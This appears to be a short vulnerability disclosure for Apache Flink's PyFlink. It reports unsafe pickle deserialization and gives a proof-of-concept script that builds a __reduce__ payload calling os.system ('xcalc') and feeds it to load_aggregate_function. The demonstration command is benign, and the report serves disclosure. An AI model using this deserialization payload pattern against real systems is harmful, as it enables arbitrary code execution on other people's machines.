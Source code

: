 # Description
Apache Flink is an open source stream processing framework with powerful stream- and batch-processing capabilities.
* **Vulnerability description**
    untrusted loading of data by the pickle.load function leading to Arbitrary code execution.

# Proof of Concept
1. run exploit.py
```python
import os
import pickle
#os.system('pip3 install apache-flink')
from pyflink.fn_execution import operation_utils
#payload formation
class ArbitraryCode:
    def __reduce__(self):
        cmd = ('xcalc')
        return os.system, (cmd,)
dumps = pickle.dumps(ArbitraryCode())
operation_utils.load_aggregate_function(dumps)
```
* `pip3 install apache-flink`
* `python3 exploit.py`
